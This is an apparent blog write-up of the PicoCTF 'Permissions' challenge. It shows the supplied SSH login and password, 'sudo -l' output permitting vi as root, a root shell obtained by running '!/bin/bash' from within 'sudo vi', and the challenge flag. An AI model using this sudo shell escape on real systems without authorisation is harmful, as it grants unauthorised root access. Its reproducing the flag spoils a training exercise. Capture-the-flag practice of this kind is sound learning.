 ```yaml
---
title: "Permissions from PicoCTF"
categories: [PicoCTF]
tags: [PicoCTF]
---
```

# Permissions from PicoCTF
[page](https://play.picoctf.org/practice/challenge/363?category=5&difficulty=2&page=1&search=&solved=0)


> Description
Can you read files in the root file?The system admin has provisioned an account for you on the main server:
`ssh -p 64357 picoplayer@saturn.picoctf.net`
Password: `33qE7mB5BF`
Can you login and read the root file?

>Hints
>What permissions do you have?

Let's connect to ssh and type `sudo -l` this shows on what root permissions we have on picoplayer:
```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
And we see `vi` text editor. With `sudo vi` we can create an file with sudo permission and execute it with this code:
```
picoplayer@challenge:~$ sudo vi test
```
and when we open the text editor press `esc` and then type `!/bin/bash` to execute it.
It will look like this:
```
:.!/bin/bash

```
This will make you root, Head to root directory and then write 
`ls -all` and you will see the flag:
**picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}**

